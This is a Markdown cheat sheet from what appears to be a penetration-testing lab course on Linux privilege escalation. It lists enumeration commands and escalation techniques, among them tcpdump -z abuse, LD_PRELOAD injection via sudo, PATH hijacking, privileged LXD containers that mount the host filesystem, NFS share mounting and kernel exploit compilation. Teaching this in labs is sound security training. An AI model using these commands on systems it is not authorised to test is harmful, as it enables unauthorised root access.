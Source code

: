 | Command | Description |
|---------|-------------|
| `ssh htb-student@<target IP>` | SSH to lab target. |
| `ps aux | grep root` | See processes running as root. |
| `ps au` | See logged in users. |
| `ls /home` | View user home directories. |
| `ls -l ~/.ssh` | Check for SSH keys for the current user. |
| `history` | Check the current user's Bash history. |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs. |
| `lsblk` | Check for unmounted file systems/drives. |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writable directories. |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writable files. |
| `uname -a` | Check the Kernel version. |
| `cat /etc/lsb-release` | Check the OS version. |
| `gcc kernel_exploit.c -o kernel_exploit` | Compile an exploit written in C. |
| `screen -v` | Check the installed version of Screen. |
| `./pspy64 -pf -i 1000` | View running processes with pspy. |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set. |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set. |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Privilege escalation with tcpdump. |
| `echo $PATH` | Check the current user's PATH variable contents. |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH. |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files. |
| `ldd /bin/ls` | View the shared objects required by a binary. |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using LD_PRELOAD. |
| `readelf -d payroll | grep PATH` | Check the RUNPATH of a binary. |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compile a shared library. |
| `lxd init` | Start the LXD initialization process. |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image. |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container. |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container. |
| `lxc start r00t` | Start the container. |
| `showmount -e 10.129.2.12` | Show the NFS export list. |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally. |
| `tmux -S /shareds new -s debugsess` | Create a shared tmux session socket. |
| `./lynis audit system` | Perform a system audit with Lynis. |
